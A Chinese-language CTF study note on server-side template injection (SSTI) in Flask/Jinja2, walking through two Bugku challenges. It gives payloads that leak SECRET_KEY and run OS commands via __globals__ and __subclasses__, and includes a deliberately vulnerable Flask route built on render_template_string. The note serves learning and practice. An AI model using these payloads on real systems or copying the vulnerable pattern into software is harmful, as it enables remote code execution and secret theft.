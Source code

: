 ```yaml
---
author: "Yiming Shen"
date: 2021-07-22
lastmod: 2021-07-22
title: "SSTI类型题目积累及资料"
tags: [
    "CTF",
    "Web",
    "SSTI",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
draft: false
typora-root-url: ..\..\..\static\
---
```


## SSTI类型介绍

SSTI即服务端模板注入攻击，服务端接收用户输入，将其作为Web应用模板的一部分，渲染编译后执行了恶意内容，导致敏感信息泄露、代码执行等。

工具：*tplmap*、*hackbar*

按这张图可以测试出具体是什么模板引擎：

![img](https://upload.nsg.cn/uploads/images/202009/26/9/8sFfzWRJrj.png!large)

### 1. Simple_SSTI_1

[Simple_SSTI_1](https://ctf.bugku.com/challenges/detail/id/196.html?page=3)

进入环境后，使用开发者工具查看网站源代码，发现一句提示：

> You know, in the flask, We often set a secret_key variable.-->

根据提示可以得出

1. 采用了flask框架

2. flag很有可能存储在secret_key中

尝试get注入：`?flag={{config.SECRET_KEY}}`

成功~

### 2.Simple_SSTI_2

[Simple_SSTI_2](ctf.bugku.com/challenges/detail/id/203.html)

题目提示了进行模板注入，套用魔术方法。

> /?flag={{config.__class__.__init__.__globals__['os'].popen('ls >   >../').read()}}
>
>   

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210310204413618.png)

发现存在以下文件夹，利用cd命令进入查看后，发现第一个app文件夹内有flag文件

> cat ../app/flag

查看flag文件，得解。

#### 本题思考

利用Python-flask框架搭建简易网站复现SSTI漏洞如下：

```Python
from flask import Flask
from flask import render_template
from flask import render_template_string
from flask import request
app=Flask(__name__)
@app.route("/login")
def login():
    username=request.args.get("flag")
    html='''
    <h1> Python本地网站-Login %s</h1>
    '''%(username)
    return render_template_string(html)

if __name__=="__main__":
    app.run(debug=True)
```

浏览器访问127.0.0.1:5050/login 

搭建成功~

传入表达式：?flag={{2**64}}

真不错，用Python高精度计算

``` shell

?name={{\%27\%27.__class__.__mro__[1].__subclasses__()[213].__init__.__globals__[\%27__builtins__\%27][\%27__import__\%27](\%27os\%27).popen("dir").read()}}

```

使用Windows平台下的命令get注入即可访问本地文件。

